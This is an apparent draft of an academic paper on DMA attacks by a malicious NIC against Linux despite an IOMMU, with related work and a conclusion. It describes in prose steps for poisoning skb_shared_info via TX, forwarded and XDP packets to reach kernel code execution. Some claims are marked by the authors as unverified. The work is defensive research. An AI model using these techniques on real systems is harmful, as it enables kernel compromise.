    
\includegraphics[width=\linewidth]{figs/accomplice.pdf}
    \caption{A TX sk\_buff filled with malicious code, used as a \means for a DMA attack}
    \label{fig:payload}
\end{figure*}
\subsection{Poisoned TX}\label{sec:posion}

\textcolor{magenta}{RingFlod \ref{sec:ringflod} allows a NIC to execute random code with high probability. The prerequisite, is enough information regarding the physical layout of the server and its peripherals\footnote{Other PCIe devices and their location, this all impacts how memory is allocated} and as long as the NIC driver has a high enough memory footprint. }

When guessing a \emph{magic} PFN is not an option, we need other \means of computing a valid \kva. 
A NIC has READ access to the \shinfo of a TX packet, this provides the NIC with access to the frags array. The \texttt{frag} array contains struct \page{} pointers, that both leak kernel pointers that allow to break KASLR, and provide the PFNs of specific pages containing data sent from userspace; pages that device can access with READ. 

Assuming, an unprivileged accomplice(witing or unwitting) can open a UDP/TCP socket in user space; this user could transmit a poisoned ROP buffer. 
%For a ROP attack (where we need the Kernel text offsets) we assume the NIC has spoofed an UDP packet with poisoned content for the accomplice to send. 
Once an accomplice sends the packet the NIC can execute the attack in 4 simple steps (Fig \ref{fig:payload}):
\begin{enumerate}
    \item The TX \data and the fragments are mapped for the NIC to read.
    \item The NIC identifies the poisoned buffer and translates \page to \kva.
    \item The NIC spoofs an RX packet, and delays the completion notification of the TX packets (we don't want the \mabaf to be released prematurely).
    \item The NIC overwrites \shinfo with the \kva retrieved in step 2. 
\end{enumerate}
%But if the fragments hold malicious content; its all the malicious NIC needs for a successful attack. The readable \shinfo holds a \kva for a \page. This both allows the NIC to break KASLR and gives a \kva\footnote{\textcolor{magenta}{Do show exactly what are the KASLR bits and how you break it}} of a valid \mabaf. To implement the attack the NIC will generate an RX packet and fill the \uarg address from the calculated \kva.
%The NIC will hold off on the TX completion event in order to make sure that \kva is not freed by the TX completion handler; before the poisoned RX packet is processed. A TX completion event that fails to appear in due time, will trigger a TX T/O error that will flush all buffers; the T/O is set by the driver usually to 5 seconds, which is enough to implement an attack.\newline
In this scenario the attacker doesn't need any prior knowledge of the kernel or the hardware. The only assumption is that there is an accomplice (witting or unwitting) that can open a socket in user-space. For that matter, a socket in user-space of a guest machine; making any cloud VM or a Proxy server a valid intrusion tool in the presence of a malicious device.\newline
Having an accomplice, in the form of an unprivileged user provides other vectors of attack as well. In addition to running ROP attacks; the NIC can also leak the content of arbitrary memory pages to the user. Assuming that the NIC has write access to \shinfo after it has been sent up the network stack. For example, in case of deferred protection or when pool\_page is used (see \ref{sec:xdp}). The NIC can modify the \page address in the \texttt{frag} entries, and let the Linux network stack copy the context of arbitrary memory pages to an unprivileged user. A likely side effect of this attack is a memory corruption and a Kernel panic; so caution is advised. The reason beaing, that the \texttt{skb\_free} function will attempt to free these pages; pages never owned by the network stack.
\newline
\textcolor{magenta}{Must validate feasibility: An accomplice in user space, can attempt running arbitrary code in kernel context without resolving to ROP attacks; the usef, can instead write a function and a \texttt{ubuf\_info} in an unprivileged binary and send the \texttt{ubuf\_info} address to the NIC. The \shinfo callback must be called with the users page tables loaded - this is a likely scenario as it seems that the \skb is freed inside the recv() sys\_call callback.}

\subsection{Forward Thinking}
In some situations, an accomplice will not be available. Packet forwarding functionality is usually disabled by default in Linux machines. But some Linux servers may function as a router or an L3 load balancer; these machines will have packet forwarding enabled. In this scenario instead of waiting for an accomplice to send a poisoned packet; the NIC can independently generate an RX packet to a destination that is reachable from the server. For a TCP connection, the Linux kernel will attempt to aggregate multiple TCP segments into a single large packet\footnote{Generic Receive offload,\url{https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/6/html/performance_tuning_guide/network-nic-offloads}}. This packet will then be forwarded and become a TX packet. A TX packet that can be used as described in the previous attack (\ref{sec:posion}) Fig \ref{fig:payload}. \newline
Packet forwarding, also opens up additional attack options. Instead of sending a TCP packet and letting the GRO layer fill in the \texttt{frags} information. The NIC can generate a small UDP packet and fill in the \texttt{frags} array with any arbitrary \page on the system. This will make the driver map these pages with DMA\_TO\_DEVICE; providing read access to any page on the system to the NIC. The ConnectX-5 driver (mlx5\_core), will map all the frags in \shinfo, w/o checking the actual packet length. It is important to set the \texttt{nr\_frags} field to let the driver know that there are frgas to map. But setting the field back to zero, before creating a TX completion. It is important, that the OS wont try freeing pages the driver never owned.

\begin{figure*}[t]
    \centering
    
\includegraphics[width=\linewidth]{figs/gro.pdf}
    \caption{An RX sk\_buff after GRO, used as a \means for a DMA attack}
    \label{fig:gro}
\end{figure*}

\subsection{XDP}\label{sec:xdp}
XDP\footnote{\url{https://www.iovisor.org/technology/xdp}} provides a way for users to add custom handling to RX buffers with little overhead. Use cases, include DDOs mitigation for security and Forwarding and load balancing; for the latter the RX buffers need to be also readable to the NIC. As a result all RX buffers are mapped with DMA\_BIDIRECTIONAL rather than the usual DMA\_FROM device. Additionally, in an attempt to avoid performance penalties from memory allocation \cite{xdp} and DMA mapping/unmapping; the RX buffers are reused in a page\_pool\cite{page_pool}. These, pages are never unmapped, and remain accessible to the device both for read and write through out the pools existence (read forever). In this section we will focus on the latest mlx5\_core drivers of the NICs we have on our setup. Other drivers with XDP patches show similar behaviour\footnote{\textcolor{red}{Add a list of drivers to Appendix}}. It is important to note, that a DMA-page pool mechanism is not an inherently bad idea when implemented with caution\cite{MSMT18}. Also, its important to note that the mlx5\_core driver has two modes of operation; linear - where an skb is built around an RX buffer and non-linear where the driver is is filling up the \texttt{frags} of \shinfo. The former is the default, and the later is actually secure. The non-linear mode of option is secure because \shinfo is never accessible to the device; and thus the NIC never has the \oportunity to attack.\newline
In linear mode the NIC has both read, and write access to \shinfo; this additional read capability allows the NIC to run and exploit in 4 steps (Fig \ref{fig:gro}):
\begin{enumerate}
    \item An RX \skb is generated, its part of a TCP stream. \shinfo is initialised by the CPU and the \texttt{frags} are filled with NULL pointers.
    \item A second RX \skb is generated and its part of the same TCP stream.
    \item The second \skb is coalesced with the first packet. The \skb is freed and the \data is added as a \texttt{frag} to the first \skb.
    \item The NIC reads the updated \texttt{frag} field, translates the \page address to a valid \kva and finally fills the \texttt{destructor\_arg} field. Creating a poisoned \skb like in Fig \ref{fig:sh_info}.
\end{enumerate}
The difference between this flow and a regular receive flow is the additional read capability the NIC has due to XDP.
\textcolor{magenta}{\subsection{ICMP}
In the ICMP code I have noticed; what seems to be a reuse of RX skbs for TX, resulting in READ/WRITE mapping - this can allow the device to read all server memory. Unfortunately privilege escalation is infeasible due to lack of \means, until of-course we find a scenario where ICMP adds, write accessible frags.} 

\begin{comment}
%The linear skbs in mlx5 are mapping sh\_info as BI\_DIR, need to see when linear used vs non-linear and to check othe XDP drivers. When sh\_info is mapped BI\_DIR its all we need to attack.\newline It seems linear skb (No (HW?)LRO and MTU<1500 : verify with experimnt or Boris) means no frags, while \begin{enumerate}
%    \item build\_skb is used on a mapped page
%    \item page is unmapped in a deferred way, regardless of iommu policy; a driver hack.
%\end{enumerate} 
 \begin{enumerate}
    \item skb\_try\_coalesce
    \item SW LRO/GRO
\end{enumerate}.
\newline
\textcolor{magenta}{In addition reviewing other drivers for the intersection of DMA\_BIDIR \^ (skb\_add\_rx\_frag||skb\_fill\_page\_descriptor)}
\end{comment}

\section{Related Work}
We cover DMA attacks in the presence of IOMMU, defenses, and emerging ROP mitigation techniques.

\smallskip
\noindent\textbf{DMA attacks in the presence of IOMMU.}
Beniamini demonstrated attacks on cellular devices, e.g., the iPhone 7 and Nexus 5/6/6P, through their Wi-Fi chips~\cite{Ben17a, Ben17b}. 
%While Nexus phones do not use an IOMMU, iPhones do. 
The attack exploited a TOCTTOU (Time of Check To Time of Use) vulnerability in the NIC driver. From an I/O point of view, all the DMA writes were still legal (i.e., only to buffers currently mapped to the NIC).

% \noindent\textbf{Thunderclap~\cite{thunder}} A recent paper has introduced an FPGA tool using which they demonstrated several ad-hoc \simple DMA attacks on Windows, macOS, and FreeBSD. 
% %
% Our work takes a significant step forward in characterizing, exploiting, and detecting DMA vulnerabilities. Specifically: (1) we provide characterizations and taxonomy that facilitate reasoning about DMA vulnerabilities; (2) we provide tools for finding DMA vulnerabilities and exemplify their use; (3) we devise and demonstrate \compound DMA attacks by carefully exploiting standard OS behavior.

\smallskip
\noindent\textbf{Thunderclap~\cite{thunder}} This work also considers sub-page vulnerabilities and \simple attacks. In particular, they introduced an FPGA tool using which they demonstrated several ad-hoc \simple DMA attacks on Windows, macOS, and FreeBSD. However, our work takes a significant step forward in characterizing, exploiting, and detecting DMA vulnerabilities. Below we summarize the main differences \mbox{between our work and Thunderclap:}
\begin{itemize}

    \item Thunderclap does not distinguish \simple from \compound attacks. But this distinction is crucial because it teaches the community that merely having write access to a kernel pointer might not be sufficient to mount an attack. For instance, Thunderclap's "attack story 6" is not exploitable without a technique to identify the buffer's kernel virtual address (KVAs), an important missing piece that is not discussed/acknowledged in the Thunderclap paper.
    
    \item We propose new techniques to identify KVAs (Sec.~\ref{sec:ringflod}, ~\ref{sec:posion},~\ref{appx:additional_compound}).
    
    \item We explicitly characterize/enumerate the attributes required for a successful DMA attack. These are not systematically defined by Thunderclap. Further, we demonstrate a complete \compound attack in Sec.~\ref{Sec:setup}.
    
    \item We taxonomize sub-page vulnerabilities (Sec.~\ref{sec:subpage}). Thunderclap's vulnerability taxonomy is general: it differentiates "data leakage" from "kernel pointer" but doesn't fully characterize kernel pointer attacks---our work carefully addresses this issue.
    
    \item Whereas Thunderclap claims that Linux is safe from skbuff attacks because ``its skbuff locates function pointers and data on different pages'' (quoting its Sec. VI), we show that this is, in fact, incorrect by discovering and describing a new vulnerability/attack on Linux skbuffs.
    
    \item We contribute static and dynamic analyses to identify sub-page vulnerabilities, and we run them on Linux.
    
\end{itemize}





\smallskip
\noindent\textbf{Adressing IOMMU vulnerabilities.}
Boyd-Wickizer and Zeldovich~\cite{BWZ10} and LeVasseur et al.~\cite{LUSG04} suggested isolating unmodified device drivers in user space programs and virtual machines, respectively. Similarly, Cinch used an isolated red virtual machine for intercepting bus traffic~\cite{AWH16}. These methods could be applied to limit the damage of potential attacks in addition to other protection mechanisms. They do not, however, prevent code execution in an isolated environment. By attacking the isolation mechanism, attackers might still compromise the entire system.

Markuze et al. suggested that the IOMMU driver should use bounce buffers~\cite{MMT16}. Typically, device drivers invoke map/unmap requests for desired buffers through the DMA API. According to their suggestion, instead of dynamically mapping/unmapping pages, the DMA backend would copy the buffer to/from designated pages with fixed mapping. By keeping separate data pages for each device, they avoid data co-location and, as a result, eliminate the sub-page granularity vulnerability. Since the mappings are static, the issue of deferred invalidation is eliminated as well. 
%
Nevertheless, this solution imposes a large overhead of data copying and memory wastage. In a later work, Markuze et al. suggested reducing these overheads by implementing the DMA-Aware Malloc for Networking (DAMN)~\cite{MSMT18}. The security of the system still depends on developers avoiding mistakes (e.g., not using \texttt{build\_skb}) and does not provide a solution for packet forwarding or zero-copy I/O (e.g., \texttt{sendfile}, XDP~\cite{xdp}). %Furthermore, these ideas have yet to be introduced or even proposed to the Linux community, rendering current deployments at high risk.
%Previous works have painted DMA attacks in broad strokes only, without delving into details~\cite{MMT16,MSMT18,thunder}.

%Several hardware mechanisms exist for protecting CPU buffers smaller than a page. These mechanisms could be implemented in the IOMMU in order to mitigate the sub-page vulnerabilities. 
Intel’s sub-page protecting technology suggests protecting fixed-sized buffers smaller than a page~\cite{Int18}. Since the buffers are still fixed-sized, the same vulnerability remains, albeit for buffers smaller than a page. Intel MPX (Memory Protection Extensions) lets the user define boundaries for buffers and, later, explicitly checks that the corresponding pointers are between these boundaries~\cite{Int16a}. Oracle SSM (Silicon Secured Memory) lets the user \emph{color} buffers and associative pointers~\cite{Ora15}. The color is implicitly checked for a match at each memory access. MPX, SSM, and other similar approaches may be used for building a secure alternative to IOMMU. 

\smallskip
\noindent\textbf{Emerging ROP mitigation techniques.}
Intel Control-Flow Enforcement Technology (CET) is a new instruction set for mitigating ROP attacks~\cite{Int17}. Processors that support CET use two stacks simultaneously instead of the regular one, with the new shadow stack having only return addresses rather than a full copy of the data. During each RET command, the shadow stack address is checked, and the code continues running only if the stacks agree on the address. Even if an attacker manages to control the regular stack, the shadow stack prevents the attack. Also, each legitimate indirect jump target is marked with a special instruction. Thus, it is impossible to jump to arbitrary locations in the code, and JOP attacks are also prevented. Similarly, each legitimate call target is also marked. De Raadt recently announced the Kernel Address Randomized Link (KARL) for OpenBSD~\cite{dr17}. Each time the system is booted, it links a new, randomized kernel binary. This is strong randomization (as opposed to Linux’s KASLR), making it harder to patch the payload during runtime. 

%Both KARL and CET should successfully mitigate simple ROP/KASLR attacks whenever widely applied.


\section{Conclusion}

Hardware attacks are often considered to be harder to implement than software attacks. Nevertheless, once a malicious device is built, launching the attack is as easy as connecting the device to an external port for only a few seconds. Recent leaks from clandestine agencies show that they attacked both by shipping infected hardware \cite{Gal14} and by connecting external malicious devices \cite{Fin14}. Hence, the problems really do exist in the wild and should concern security experts. Moreover, our FireWire/SPB2 attack can be seen as an expansion of the classic attacks and could easily be added as a module to existing off-the-shelf attacking tools.
The main limitation of our attacks compared to the old ones is that the devices in our attacks have access only to part of the memory. For instance, memory dumping, a popular DMA attack, has become much less trivial thanks to the IOMMU. In the extreme case, the attacker has access only to one page without even knowing its physical address. As a result, our attacks had to be made more complicated than the old ones. For example, code injection might be required for memory dumping, and payload spraying for overcoming unknown physical addresses.
Generally speaking, the requirement for physical access means that the attacks are targeted albeit this need not be true. There are some methods for spreading opportunistic attacks using physical devices. In some case, modifying firmware to be malicious could be done entirely by software that, in its turn, could be distributed over the network (e.g., Bad USB attack \cite{NL14}). In some cases, the attack could even come from the network side of the device [Ben17a, Ben17b]. Another method is to drop malicious devices in public spaces and wait for a potential victim to connect it to his computer \cite{TDF16}. It is also possible to create a malicious device that can impersonate a legitimate device \cite{thunder}.\newline
While working on the attacks, we realized that the root cause of all the discussed problems comes from the way modern OSs treat peripheral devices. Today, the security industry no longer trusts I/O devices. Recommendations for building trusted environments often include putting limitations on devices, such as removing potentially dangerous drivers or using IOMMU. All state-of-the-art OSs, however, were designed a long time ago. Indeed, when it comes to security, OSs do not treat devices as untrusted entities as they do processes. All the lessons that were learned about protection from/of processes do not seem to have carried over. As a result:
\begin{enumerate}
    \item Memory that is given to the device is not zeroed.
    \item Allocation granularity is not page aligned.
    \item IOTLB invalidations are often deferred.
    \item IOVAs are not randomized and are predictable. \textcolor{red}{What? How are they predictable, and how does it help?}
    \item There are no checkers for invalid memory use (such as Linux’s KASAN for regular memory usages)
\end{enumerate}
Even though we explored only some aspects of this problem, this is a fundamental design issue and it should be addressed as such. Finally, we note that current IOMMU/PCI architectures allow peripheral devices to serve as their own IOTLB (namely, PCI ATS or Device-IOTLB). This technology makes our work meaningless because, by using it, malicious devices are able to simply report false translations and access any protected memory\footnote{It is now possible to disable ATS functionality with a boot parameter}.

\begin{comment}
\footnote{\url{https://lore.kernel.org/lkml/20180510230948.GF190385@bhelgaas-glaptop.roam.corp.google.com/}}.
\end{comment}

%To somewhat enhance the security of Linux, we suggested a patch allowing system administrators to disable ATS.1 Development of this patch continues and it will most likely be introduced by Linux into one of its upcoming versions.\newline
